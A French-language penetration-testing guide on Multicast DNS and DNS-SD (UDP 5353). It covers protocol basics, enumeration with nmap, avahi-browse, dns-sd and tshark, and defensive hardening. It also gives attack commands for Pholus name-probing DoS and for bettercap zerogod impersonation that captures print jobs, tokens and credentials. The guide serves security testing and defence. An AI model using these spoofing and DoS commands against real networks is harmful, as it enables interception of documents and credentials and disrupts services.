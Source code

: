 # 5353/UDP Multicast DNS (mDNS) et DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Informations de base

Multicast DNS (mDNS) permet la résolution de noms et la découverte de services semblables à DNS à l'intérieur d'un lien local sans serveur DNS unicast. Il utilise UDP/5353 et les adresses multicast 224.0.0.251 (IPv4) et FF02::FB (IPv6). La découverte de services DNS (DNS-SD, généralement utilisée avec mDNS) fournit un moyen standardisé d'énumérer et de décrire les services via des enregistrements PTR, SRV et TXT.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Détails clés du protocole que vous exploiterez souvent lors des attaques :
- Les noms dans la zone .local sont résolus via mDNS.
- Le bit QU (Query Unicast) peut demander des réponses unicast même pour des questions multicast.
- Les implémentations doivent ignorer les paquets non provenant du lien local ; certaines piles les acceptent encore.
- Le sondage/l'annonce impose des noms d'hôtes/services uniques ; interférer ici crée des conditions de DoS/"name squatting".

## Modèle de service DNS-SD

Les services sont identifiés comme _<service>._tcp ou _<service>._udp sous .local, par exemple _ipp._tcp.local (imprimantes), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge), etc. Découvrez les types avec _services._dns-sd._udp.local, puis résolvez les instances découvertes en SRV/TXT/A/AAAA.

## Exploration et énumération du réseau

- scan cible nmap (mDNS direct sur un hôte) :
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- découverte par diffusion nmap (écoutez le segment et énumérez tous les types/instances DNS-SD) :
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux) :
```bash
# Lister les types de service
avahi-browse -bt _services._dns-sd._udp
# Parcourir tous les services et résoudre vers hôte/port
avahi-browse -art
```
- Apple dns-sd (macOS) :
```bash
# Parcourir tous les services HTTP
dns-sd -B _http._tcp
# Énumérer les types de service
dns-sd -B _services._dns-sd._udp
# Résoudre une instance spécifique en SRV/TXT
dns-sd -L "My Printer" _ipp._tcp local
```
- Capture de paquets avec tshark :
```bash
# Capture en direct
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Seulement les requêtes de liste de services DNS-SD
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Astuce : Certains navigateurs/WebRTC utilisent des noms d'hôtes mDNS éphémères pour masquer les IP locales. Si vous voyez des candidats random-UUID.local sur le fil, résolvez-les avec mDNS pour pivoter vers des IP locales.

## Attaques

### Interférence de sondage de nom mDNS (DoS / name squatting)

Pendant la phase de sondage, un hôte vérifie l'unicité du nom. Répondre avec des conflits falsifiés le force à choisir de nouveaux noms ou à échouer. Cela peut retarder ou empêcher l'enregistrement et la découverte de services.

Exemple avec Pholus :
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Usurpation de service et impersonation (MitM)

Imitez les services DNS-SD annoncés (imprimantes, AirPlay, HTTP, partages de fichiers) pour forcer les clients à se connecter à vous. Cela est particulièrement utile pour :
- Capturer des documents en usurpant _ipp._tcp ou _printer._tcp.
- Attirer des clients vers des services HTTP/HTTPS pour récolter des tokens/cookies ou livrer des charges utiles.
- Combiner avec des techniques de relais NTLM lorsque les clients Windows négocient l'authentification vers des services usurpés.

Avec le module zerogod de bettercap (usurpateur/impersonateur mDNS/DNS-SD) :
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Aussi voir le spoofing LLMNR/NBNS/mDNS/WPAD générique et les workflows de capture/relais d'identifiants :

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Remarques sur les problèmes d'implémentation récents (utile pour DoS/persistente lors des engagements)

- Les bugs de crash d'Avahi reachable-assertion et D-Bus (2023) peuvent terminer avahi-daemon sur les distributions Linux (par exemple, CVE-2023-38469..38473, CVE-2023-1981), perturbant la découverte de services sur les hôtes cibles jusqu'au redémarrage.
- Le DoS de la passerelle mDNS du contrôleur LAN sans fil Cisco IOS XE (2024, CVE-2024-20303) permet aux attaquants adjacents de provoquer une forte utilisation du CPU et de déconnecter les points d'accès. Si vous rencontrez une passerelle mDNS entre des VLAN, soyez conscient de sa stabilité sous des mDNS malformés ou à haut débit.

## Considérations défensives et OPSEC

- Limites de segment : Ne pas router 224.0.0.251/FF02::FB entre les zones de sécurité à moins qu'une passerelle mDNS ne soit explicitement requise. Si vous devez relier la découverte, préférez les listes d'autorisation et les limites de débit.
- Points de terminaison/serveurs Windows :
- Pour désactiver complètement la résolution de noms via mDNS, définissez la valeur du registre et redémarrez :
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- Dans les environnements gérés, désactivez la règle intégrée “mDNS (UDP-In)” du pare-feu Windows Defender (au moins sur le profil de domaine) pour empêcher le traitement mDNS entrant tout en préservant la fonctionnalité domestique/itinérante.
- Sur les nouvelles versions de Windows 11/ modèles GPO, utilisez la politique “Configuration de l'ordinateur > Modèles administratifs > Réseau > Client DNS > Configurer le protocole DNS multicast (mDNS)” et définissez-le sur Désactivé.
- Linux (Avahi) :
- Limitez la publication lorsque ce n'est pas nécessaire : définissez `disable-publishing=yes`, et restreignez les interfaces avec `allow-interfaces=` / `deny-interfaces=` dans `/etc/avahi/avahi-daemon.conf`.
- Envisagez `check-response-ttl=yes` et évitez `enable-reflector=yes` à moins que cela ne soit strictement nécessaire ; préférez les listes d'autorisation `reflect-filters=` lors du reflet.
- macOS : Restreindre le mDNS entrant aux pare-feu hôte/réseau lorsque la découverte Bonjour n'est pas nécessaire pour des sous-réseaux spécifiques.
- Surveillance : Alertez sur des pics inhabituels dans les requêtes `_services._dns-sd._udp.local` ou des changements soudains dans SRV/TXT de services critiques ; ce sont des indicateurs de spoofing ou d'imitation de service.

## Référence rapide des outils

- nmap NSE : `dns-service-discovery` et `broadcast-dns-service-discovery`.
- Pholus : scan actif, balayages mDNS inversés, aides DoS et spoofing.
```bash
# Sniffing passif (secondes de timeout)
sudo python3 pholus3.py <iface> -stimeout 60
# Énumérer les types de services
sudo python3 pholus3.py <iface> -sscan
# Envoyer des requêtes mDNS génériques
sudo python3 pholus3.py <iface> --request
# Balayage mDNS inversé d'un sous-réseau
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod : découvrir, sauvegarder, annoncer et imiter les services mDNS/DNS-SD (voir exemples ci-dessus).

## Spoofing/MitM

L'attaque la plus intéressante que vous pouvez effectuer sur ce service est de réaliser un MitM dans la communication entre le client et le véritable serveur. Vous pourriez être en mesure d'obtenir des fichiers sensibles (MitM la communication avec l'imprimante) ou même des identifiants (authentification Windows).\
Pour plus d'informations, consultez :

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Références

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (découverte mDNS/DNS-SD, spoofing, imitation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
